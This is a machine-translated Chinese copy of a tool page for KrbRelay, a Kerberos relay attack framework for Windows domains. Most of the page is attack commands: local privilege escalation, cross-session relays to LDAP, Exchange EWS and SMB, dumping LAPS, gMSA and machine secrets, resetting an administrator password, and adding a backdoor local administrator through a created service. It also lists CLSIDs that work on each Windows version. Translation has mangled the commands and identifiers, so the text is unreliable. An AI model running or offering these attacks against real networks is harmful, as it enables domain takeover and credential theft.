

# krb relay:Kerberos 中继框架

> 原文：<https://kalilinuxtutorials.com/krbrelay/>

.png)

KrbRelay 应该可以在大多数完全补丁化的 Windows 系统上工作。在实验室环境中使用服务器操作系统可能会有困难，因为防火墙会阻止 OXID 解析器。但是，在现实生活中，这很可能不是问题，CLSIDs 也是如此。

### 支持的协议和功能

一些协议比其他的更完整，公关是受欢迎的。

*   LLMNR
*   LDAP/LDAPS
*   超文本传送协议
    *   EWS
*   SMBv2
*   SMB 上的 RPC
    *   SAMR 女士
    *   SCMR 女士
    *   RPRN 女士
    *   MS-RRP
    *   麻省理工学院 LSAT

### 例子

**LPE
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-clsid 90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8-shadow cred
跨会话 LDAP
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-shadow cred win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win 2016 $
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-add-group member SRV _ admins domain _ user
。\ krb relay . exe-SPN LDAP/dc01 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-laps
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-gmsa
。\ krb relay . exe-SPN LDAP/dc02 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-SSL-reset-密码管理员 Password123！
跨会话 HTTP
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-EWS-search beta，test
。\ krb relay . exe-SPN http/exchange . htb . local-endpoint EWS/exchange . asmx-SSL-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 cb6 c 6877182-EWS-delegate domain _ user @ htb . local
。\ krb relay . exe-SPN http/win 2016 . htb . local-endpoint iisstart.htm-代理-会话 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182
跨会话 SMB
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-console
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1 CB 6 c 6877182-add-privileges(([系统。security . principal . windows identity]::get current())、User.Value)
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 c 6877182-secrets
。\ krb relay . exe-SPN CIFS/win 2016 . htb . local-session 2-clsid 354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182-service-add addUser " C:\ windows \ system32 \ cmd . exe/C " " " " C:\ windows \ system32 \ net 用户多维数据集密码 123！/add&C:\ windows \ system32 \ net local group administrator s cube/add " " " "
LLMNR
。\ krb relay . exe-llmnr-SPN ' CIFS/win 2019 . htb . local '-secrets**

`**CheckPort.exe**`是一个 C#工具，可用于发现 OXID 解析器的可用端口。

**C:\ Users \ domain _ user \ Desktop \ KrbRelay \ check port \ bin \ Release \ check port . exe
[*]寻找可用端口..【*】端口:1024 可用**

## CLSIDs

我们需要在一个允许通过网络认证的进程中解组我们的 OBJREF，这可以通过查看`**Impersonation Level**`来验证

*   RPC_C_IMP_LEVEL_DEFAULT #将不起作用
*   RPC_C_IMP_LEVEL_ANONYMOUS #将不起作用
*   RPC_C_IMP_LEVEL_IDENTIFY #适用于 LDAP
*   SMB 需要 RPC_C_IMP_LEVEL_IMPERSONATE #
*   RPC_C_IMP_LEVEL_DELEGATE

当中继到 LDAP 或任何其他启用了签名但没有强制签名的服务时，我们还需要验证流程的`**Authentication Level**`是否设置为 **`RPC_C_AUTHN_LEVEL_CONNECT`。**

在通过网络进行身份验证时，在`**NT Authority\Network service**`下运行的进程将使用系统帐户。

发现小岛屿发展中国家的工具:https://github.com/tyranid/oleviewdotnet

**导入-模块。\ oleviewdotnet . PS D1
Get-com database-set current
$ comdb = Get-current com database
$ clsid =(Get-com class)。clsid
Get-ComProcess-DbgHelpPath ' C:\ Program Files(x86)\ Windows Kits \ 10 \ Debuggers \ x64 \ dbghelp . dll ' | select ProcessId，ExecutablePath，Name，AppId，User，AuthnLevel，ImpLevel**

## Windows 10 1903

**系统中继
0 BAE 55 fc-479 f-45 C2-972 e-e 951 be 72 c0 C1 # RPC _ C _ IMP _ LEVEL _ IDENTIFY
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 dec 5 # RPR**

## 服务器 2019

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
354 ff 91 b-5e 49-4 BDC-a8e 6-1cb 6 C 6877182 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
38e 441 FB-3d 16-422 f-8750-B2 dacec 5 cefc #**

## 服务器 2016

**系统中继
90f 18417-f0f 1-484 e-9d3c-59 dceee 5 DBD 8 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
跨会话中继
0289 a7c 5-91bf-4547-81ae-FEC 91 a 89 de C5 # RPC _ C _ IMP _ LEVEL _ IMPERSONATE
1f 87137d-0e7c-44 D5-8 c73-4 effb 68962 f 2**

## 错误代码

第一次不成功？再试一次，然后检查这些错误代码，如果你要打开一个问题，请粘贴完整的输出。

#### 防火墙阻止 OXID 解析器

**系统。runtime . interop services . com exception(0x 800706 ba):RPC 服务器不可用。(来自 HRESULT 的异常:0x800706BA)**

## 错误的 CLSID

**系统。runtime . interop services . com Exception(0x 80080004):对象的错误路径(来自 HRESULT 的异常:0x80080004 (CO_E_BAD_PATH))**

[**Download**](https://github.com/cube0x0/KrbRelay)